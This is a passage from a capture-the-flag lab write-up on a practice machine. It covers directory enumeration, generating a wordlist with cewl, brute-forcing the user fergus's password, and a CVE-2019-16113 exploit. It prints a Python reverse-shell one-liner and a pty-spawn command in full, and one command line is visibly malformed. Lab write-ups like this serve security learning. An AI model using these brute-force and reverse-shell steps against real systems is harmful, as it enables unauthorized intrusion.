 again in the Dirbuster, we see this file that seems interesting

![image](https://user-images.githubusercontent.com/53917092/94913801-4121ef00-0480-11eb-9699-fee431f23d1b.png)

now we know that there is a user called fergus

now let's test the passwords

but to generate a list of passwords that makes sense, I will use a tool called "cewl", which takes the words of a site and assembles a list

> cewl 10.10.10.191 -w wordlist.txt

![image](https://user-images.githubusercontent.com/53917092/94914325-3451cb00-0481-11eb-9ef1-0181e9c90e33.png)

now let's use that code to find out the password

> python3 10.10.191 fergus wordlist.txt

![image](https://user-images.githubusercontent.com/53917092/94914692-dffb1b00-0481-11eb-96db-6113f67f0615.png)

![image](https://user-images.githubusercontent.com/53917092/94915471-58161080-0483-11eb-8a9a-346f0e508273.png)

finally, we have the password, now use the exploit from CVE-2019-16113

## Getting Shell

![image](https://user-images.githubusercontent.com/53917092/94916228-abd52980-0484-11eb-80eb-692e4106b982.png)

![image](https://user-images.githubusercontent.com/53917092/94916325-e0e17c00-0484-11eb-9363-25d8843cd081.png)

![image](https://user-images.githubusercontent.com/53917092/94916508-2b62f880-0485-11eb-974e-a2c2eed20340.png)

![image](https://user-images.githubusercontent.com/53917092/94916617-65cc9580-0485-11eb-936c-f74dfa19cff5.png)

now we have a shell, but very bad

### improving this shell

to improve this shell, we will make this connection start another shell, for this we will use :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
(changing the ip)

![image](https://user-images.githubusercontent.com/53917092/94917382-d0320580-0486-11eb-9539-88e8bd9e5e22.png)

(on the right screen we have the good shell, but not a tty)

to have a tty, run the command :

> python -c 'import pty;pty.spawn("/bin/bash")'
